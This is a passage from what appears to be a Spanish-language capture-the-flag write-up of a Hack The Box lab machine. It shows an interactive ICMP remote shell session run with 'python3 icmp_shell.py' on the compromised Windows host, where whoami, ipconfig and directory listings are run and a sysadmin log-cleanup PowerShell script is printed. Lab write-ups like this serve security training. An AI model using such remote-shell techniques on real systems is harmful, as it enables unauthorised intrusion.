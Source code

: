 ```null
python3 icmp_shell.py
[~] - whoami
iis apppool\defaultapppool
[~] - ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::f8
   IPv6 Address. . . . . . . . . . . : dead:beef::c2a:1819:d5ad:d7b9
   Link-local IPv6 Address . . . . . : fe80::c2a:1819:d5ad:d7b9%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.57
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:f488%11
                                       10.10.10.2

Tunnel adapter isatap.{EC2B3AE5-2839-4250-8874-9AEC667A59EE}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : htb
```

En la raíz hay un directorio ```sysadmscripts```

```null
[~] - dir C:\sysadmscripts


    Directory: C:\sysadmscripts


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         9/26/2017   6:24 AM        284 c.ps1                             
-a---         8/22/2017  10:46 AM        263 del_logs.bat
```

Miro su contenido

```null
[~] - type C:\sysadmscripts\c.ps1
$lifeTime=1; # days

foreach($arg in $args)
{
    write-host $arg

    dir $arg | where {!$_.psiscontainer} | foreach
    {
        if((get-date).subtract($_.LastWriteTime).Days -gt $lifeTime)
        {
            remove-item ($arg + '\' + $_) -force
        }
    }
}
```
